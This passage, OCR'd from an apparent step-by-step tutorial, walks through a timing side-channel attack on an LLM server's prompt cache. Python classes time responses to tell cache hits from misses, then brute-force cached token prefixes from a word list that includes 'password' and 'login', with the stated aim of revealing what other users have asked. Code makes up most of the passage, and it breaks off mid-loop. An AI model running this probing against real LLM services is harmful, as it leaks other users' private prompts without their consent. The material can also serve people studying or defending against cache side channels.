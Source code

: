 ```python
        """Measure how long server takes to respond"""
        ...
    
    def is_cache_hit(self, prompt):
        """Determine if a prompt results in cache hit"""
        response_time = self.measure_response_time(prompt)
        return response_time < self.cache_hit_threshold
    
    def probe_token_sequence(self, token_sequence):
        """Test if a specific token sequence is cached"""
        prompt = " ".join(token_sequence)
        is_hit = self.is_cache_hit(prompt)
        
        print(f"Probe: '{prompt[:50]}...' -> {'HIT' if is_hit else 'MISS'}")
        return is_hit


monitor = CacheMonitor("http://llm-server:8000")
if monitor.calibrate():
    print("✅ Calibration successful - ready to attack!")
else:
    print("❌ Calibration failed - server might not be vulnerable")
```

### Step 2: Probe with Candidate Tokens

**What we're doing**: Testing different token combinations to see what's cached.

**Why**: Cached tokens reveal what other users have asked.

**Simple analogy**: Like playing 20 questions, but the speed of the answer tells you if you're on the right track.

```python
class TokenProber:
    def __init__(self, monitor):
        self.monitor = monitor
        self.common_tokens = [
            # Common prompt starters
            "Imagine", "you", "are", "an", "expert", "in",
            "Help", "me", "with", "this", "problem",
            "Write", "a", "function", "that", "can",
            "Translate", "the", "following", "text", "into",
            "Explain", "how", "to", "solve", "this",
            # Common words
            "the", "and", "or", "but", "for", "to", "of", "in", "on", "at",
            # Technical terms
            "code", "program", "algorithm", "data", "system", "network",
            "security", "password", "login", "database", "server"
        ]
    
    def find_cached_prefix(self, max_length=10):
        """Find the longest cached token sequence"""
        
        cached_sequence = []
        
        for position in range(max_length):
            print(f"\nTesting position {position + 1}:")
            found_token = None
            
            # Try each common token at this position
            for token in self.common_tokens:
                test_sequence = cached_sequence + [token]
                
                if self.monitor.probe_token_sequence(test_sequence):
```